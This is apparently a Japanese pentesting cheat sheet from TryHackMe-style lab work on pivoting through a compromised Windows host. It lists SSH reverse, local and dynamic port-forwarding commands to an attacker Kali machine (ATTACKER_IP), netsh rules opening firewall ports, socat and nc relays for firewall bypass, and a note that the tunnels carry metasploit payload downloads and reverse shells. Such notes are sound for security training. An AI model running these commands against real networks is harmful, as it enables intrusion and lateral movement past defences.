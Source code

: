 # トンネリング

## 準備

```shell
# kali上にトンネル専用のユーザー作成、パスワード設定
sudo useradd -m -s /usr/sbin/nologin tunnel
sudo passwd tunnel
sudo nano /etc/ssh/sshd_config
```

ポートフォワード専用設定

```text
Match User tunnel
    PermitOpen any
    ForceCommand echo 'This account can only be used for port forwarding'
    AllowTcpForwarding yes
    X11Forwarding no
    PermitTTY no
```

```shell
# SSH リスタート
sudo systemctl restart ssh
```

## RDP ポート転送

kali からはターゲットの RDP にアクセスできないが、侵害済の PC からはアクセスでき、かつ侵害済 PC から kali への SSH 接続ができるケース。

```shell
# 侵害済のPCで実行。<kali-port>:<target-ip>:<target-port>
ssh tunneluser@<kali-ip> -R 3389:<target-ip>:3389 -N
```

kali 上でローカルに向けて RDP 接続すると、ターゲットに転送される

```shell
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

同様に、このようにすると HTTP トンネルになる

```shell
ssh -R 8080:172.20.0.120:80 user@IP1
```

## ローカルポート転送

ターゲットから kali に接続できないが、kali 上のサービスに接続させたいケース。

```shell
# 侵害済のPCで実行
ssh tunneluser@<kali-ip> -L *:80:127.0.0.1:80 -N

# FWルール変更（要管理者）
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

ターゲットから次のように kali のサービスに接続できる

```text
http://<侵害済PCのIP>:80
```

## 複合トンネリング

```shell
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

- kali のローカル 8888 に HTTP リクエストすると、thmdc.za.tryhackme.com:80 に転送される
- 侵害済 PC の 6666 ポートでのリッスンは、kali の 6666 ポートに転送される
- 侵害済 PC の 7878 ポートでのリッスンは、kali の 7878 ポートに転送される

metasploit のエクスプロイトを想定。Web サーバーに HTTP リクエスト、Web サーバーからペイロードのリクエスト、Web サーバーからリバースシェルの接続。

## socat

### RDP 転送

```shell
# kali 上ではなく、侵害済 PC 上にポートを開く
socat TCP4-LISTEN:3389,fork TCP4:<target-ip>:3389

# FWルールが必要
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

### HTTP 転送

```shell
socat TCP4-LISTEN:80,fork TCP4:<kali-ip>:80
```

## 動的ポート転送

プロキシチェーンを使って、任意のコマンドでポート転送する。nmap 等は正しく動作しない可能性がある。

```shell
# 侵害済PC
ssh tunneluser@1.1.1.1 -R 9050 -N

# kali側
proxychains curl http://pxeboot.za.tryhackme.com
```

/etc/proxychains4.conf で指定されているポートと一致させる必要がある

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

## nc

FW で 25 ポートは通らないが、443 ポートは通る場合

```shell
sudo nc -lvnp 443 -c "nc <target-ip> 25"
```
